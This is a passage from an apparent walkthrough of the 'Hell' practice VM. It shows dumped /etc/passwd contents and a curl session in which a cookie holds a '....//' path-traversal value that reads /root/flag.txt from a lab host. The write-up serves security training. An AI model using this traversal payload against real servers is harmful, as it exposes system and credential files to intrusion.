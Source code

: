 ```bash Hell Directory Traversal
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian-exim:x:101:104::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
sshd:x:103:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:104:108:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
george:x:1000:1000:george,,,:/home/george:/bin/bash
mysql:x:105:109:MySQL Server,,,:/nonexistent:/bin/false
jack:x:1001:1001::/home/jack:/bin/sh
milk_4_life:x:1002:1002::/home/milk_4_life:/bin/sh
developers:x:1003:1003::/home/developers:/bin/sh
bazza:x:1004:1004::/home/bazza:/bin/sh
oj:x:1005:1005::/home/oj:/bin/sh
</HTML>
root@kali:~#
```

YEAH. That felt pretty darm good! Obviously not knowing all the steps needed to complete this VM, I figured I had come a pretty long way to finding the pot of gold. (Note the users in this file for later) During the enumeration I took a chance to include `/root/flag.txt`:

```bash Hell /root/flag.txt`
root@kali:~# cat cookies
# Netscape HTTP Cookie File
# http://curl.haxx.se/rfc/cookie_spec.html
# This file was generated by libcurl! Edit at your own risk.

192.168.56.102 FALSE /  FALSE 0  PHPSESSID   8u300rbb0747fi6iocm0lt4310
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  failcount   4
192.168.56.102 FALSE /super_secret_login_path_muhahaha/  FALSE 0  intruder ....//....//....//....//....//root/flag.txt

root@kali:~# curl http://192.168.56.102/super_secret_login_path_muhahaha/panel.php -c cookies -b cookies

<HTML>
<CENTRE>
<H2> Folders </H2>
<TABLE style="width:700px" align="center">
<TR>
   <TD><A HREF="server.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="mail.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="users.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="personal.php"><IMG SRC='folder.png'></A></TD>
   <TD><A HREF="notes.php"><IMG SRC='folder.png'></A></TD>
</TR>
<TR>
   <TD><H4>Server Status</H4></TD>
   <TD><H4>Mail Status</H4></TD>
   <TD><H4>Auth Users</H4></TD>
   <TD><H4>Personal Folder</H4></TD>
   <TD><H4>Notes</H4></TD>
</TR>
</CENTRE>
Congratulations of beating Hell.

I hope you enjoyed it and there weren't to many trolls in here for you.
```